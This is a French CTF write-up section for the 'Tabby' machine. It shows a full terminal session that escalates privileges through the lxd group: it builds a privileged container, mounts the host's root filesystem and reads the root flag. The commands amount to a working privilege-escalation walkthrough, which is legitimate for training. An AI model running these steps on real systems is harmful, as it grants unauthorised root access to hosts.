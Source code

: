 ### lxd group privilege escalation - root flag
On trouve un tutoriel pour exploiter lxd :
https://amanisher.medium.com/lxd-privilege-escalation-in-linux-lxd-group-ec7cafe7af63
Ainsi qu'un github avec le container à cloner sur la machine :
https://github.com/saghul/lxd-alpine-builder
```bash
ash@tabby:~$ cd lxd-alpine-builder/
ash@tabby:~/lxd-alpine-builder$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz
ash@tabby:~/lxd-alpine-builder$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
ash@tabby:~/lxd-alpine-builder$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64       | CONTAINER | 3.11MB | May 5, 2025 at 5:29pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
ash@tabby:~/lxd-alpine-builder$ lxc init myimage ignite -c security.privileged=true
Creating ignite
Error: No storage pool found. Please create a new storage pool
ash@tabby:~/lxd-alpine-builder$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: 
Name of the new storage pool [default=default]: 
Name of the storage backend to use (btrfs, dir, lvm, zfs, ceph) [default=zfs]: 
Create a new ZFS pool? (yes/no) [default=yes]: 
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 

ash@tabby:~/lxd-alpine-builder$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ash@tabby:~/lxd-alpine-builder$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ash@tabby:~/lxd-alpine-builder$ lxc start ignite
ash@tabby:~/lxd-alpine-builder$ lxc exec ignite /bin/sh
~ # cd /mnt/root/
/mnt/root # ls
bin         cdrom       etc         lib         lib64       lost+found  mnt         proc        run         snap        sys         usr
boot        dev         home        lib32       libx32      media       opt         root        sbin        srv         tmp         var
/mnt/root # cd root
/mnt/root/root # ls
root.txt  snap
/mnt/root/root # cat root.txt 
47a3.....74a4
```
